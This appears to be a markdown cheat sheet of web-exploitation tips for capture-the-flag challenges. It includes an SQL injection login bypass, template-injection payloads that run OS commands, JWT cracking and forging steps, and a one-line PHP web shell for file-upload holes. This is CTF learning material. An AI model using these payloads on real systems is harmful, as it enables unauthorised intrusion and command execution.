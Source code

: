 # WEB CHALLENGES

## Useful Tips And Resource

1. Use ```dirb``` to find out some directories we can view.
2. Useful SQLi -> ``` admin';--``` (works most of the time)
3. See for Template Injection by ```{{4+4}}``` if it shows 8 , then it's a SSTL.
4. [File Upload Bypass](https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application/file-upload-bypass) 
5. [Web Exploits](https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application)
6. [Pen Testing Handbook](https://blueteamdope.gitbook.io/penetration-testing-playbook/)
7. If you Find SSTI use ```{{config}}```
8. ZipSlip Vuln [SRC](https://snyk.io/research/zip-slip-vulnerability)
9. Command For using symlink and then upload -> 
    <img src="../Assets/sl.png">
10. Another type of zip vuln -> 
    <img src="../Assets/zipvuln.png">

<hr>

### Foobar CTF

1. If JWT is given , try to see it via [JWT](https://jwt.io/) . Now we need a valid and secret signature to crack it. One way to do it is via John . <code> john --wordlist=/home/luc/Pobrane/rockyou.txt --format=HMAC-SHA256 jwt.txt </code> and then <code> john --show jwt.txt </code> Now you are good to go .
Code For Node ->
    ```js
    $ node 
    > const jwt = require('jsonwebtoken')
    > var token = jwt.sign({ 'user': 'admin' },'badboy', { algorithm:'HS256',noTimestamp:true});
    > console.log(token) 
    ```

2. There was a server side template injection problem . You can refer to [SSTI](https://szymanski.ninja/en/ctfwriteups/2021/foobar/lotion/) for details.

3. If you get upload vulnreability try to upload this php code 
    ```php
        <?php
        $filestring = file_get_contents('/home/user/flag/flag.txt');
        print $filestring;
        ?> 
    ```
4. Or you can try 
    ```php
    <?php system($_GET['cmd']); ?>
    ```
5. SSTI Vuln -> ```{{config|attr('__class__')|attr('__init__')|attr('__globals__')|attr('__getitem__')('os')|attr('popen')('ls')|attr('read')()}}```
